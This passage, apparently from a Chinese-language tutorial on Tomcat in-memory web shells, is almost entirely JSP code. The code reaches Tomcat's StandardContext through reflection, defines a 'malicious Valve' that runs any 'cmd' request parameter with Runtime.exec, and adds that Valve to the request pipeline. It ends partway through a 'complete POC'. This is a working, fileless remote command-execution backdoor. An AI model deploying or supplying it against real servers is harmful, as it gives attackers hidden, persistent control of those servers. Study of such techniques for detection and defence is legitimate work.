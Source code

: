 ```java
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
 
    Pipeline pipeline = standardContext.getPipeline();
%>
```

#### 4.4.3.2、编写恶意的`valve`类

```java
<%!
    class Shell_Valve extends ValveBase {
 
        @Override
        public void invoke(Request request, Response response) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd !=null){
                try{
                    Runtime.getRuntime().exec(cmd);
                }catch (IOException e){
                    e.printStackTrace();
                }catch (NullPointerException n){
                    n.printStackTrace();
                }
            }
        }
    }
%>
```

#### 4.4.3.3、将恶意`Valve`添加进`StandardPipeline`

```java
<%
    Shell_Valve shell_valve = new Shell_Valve();
    pipeline.addValve(shell_valve);
%>
```

### 4.4.4、完整POC

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.Pipeline" %>
<%@ page import="org.apache.catalina.valves.ValveBase" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page import="java.io.IOException" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
 
<%
    Field reqF = request.getClass().getDeclaredField("request");
    reqF.setAccessible(true);
    Request req = (Request) reqF.get(request);
    StandardContext standardContext = (StandardContext) req.getContext();
 
    Pipeline pipeline = standardContext.getPipeline();
%>
 
<%!
```
